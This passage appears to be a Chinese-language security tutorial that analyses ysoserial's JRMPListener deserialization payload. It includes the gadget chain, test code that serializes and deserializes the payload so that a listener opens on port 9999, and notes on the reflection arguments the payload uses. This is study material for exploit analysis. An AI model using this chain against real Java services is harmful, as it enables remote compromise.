给出的利用链

```
Gadget chain:
* UnicastRemoteObject.readObject(ObjectInputStream) line: 235
* UnicastRemoteObject.reexport() line: 266
* UnicastRemoteObject.exportObject(Remote, int) line: 320
* UnicastRemoteObject.exportObject(Remote, UnicastServerRef) line: 383
* UnicastServerRef.exportObject(Remote, Object, boolean) line: 208
* LiveRef.exportObject(Target) line: 147
* TCPEndpoint.exportObject(Target) line: 411
* TCPTransport.exportObject(Target) line: 249
* TCPTransport.listen() line: 319
```

**测试代码**

采用如下代码调试分析

```
package ysoserial;

import ysoserial.payloads.JRMPListener;

import java.io.*;
import java.rmi.server.UnicastRemoteObject;

public class test {
    public static void main(String[] args) throws Exception {
        JRMPListener jrmpListener = new JRMPListener();
        UnicastRemoteObject object = jrmpListener.getObject("9999");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream bjos = new ObjectOutputStream(bos);
        bjos.writeObject(object);


        ByteArrayInputStream bait = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ojis = new ObjectInputStream(bait);
        Object o = ojis.readObject();

    }
}
```

![image-20220415234323936](images/3.png)

这里调用了`Reflections.createWithConstructor`传入四个参数来获取一个UnicastRemoteObject对象，第一个参数是ActivationGroupImpl，第二个参数是RemoteObject类，第三个是一个实例化Class数组，数组中里面是`RemoteRef.class`，第四个是一个实例化Object数组，里面是实例化UnicastServerRef并传入对应的端口

第一个参数使用的是 ActivationGroupImpl 是因为在利用的时候，因为本身没有readObject，要去寻找父类的readObject，就是利用的 UnicastRemoteObject 的 readObject 函数，第二个参数需要满足两个条件：

- 要为 UnicastRemoteObject 的父类
- 不能在创建的过程中有其他什么多余的操作，满足这两个条件的两个类是：RemoteObject、RemoteServer
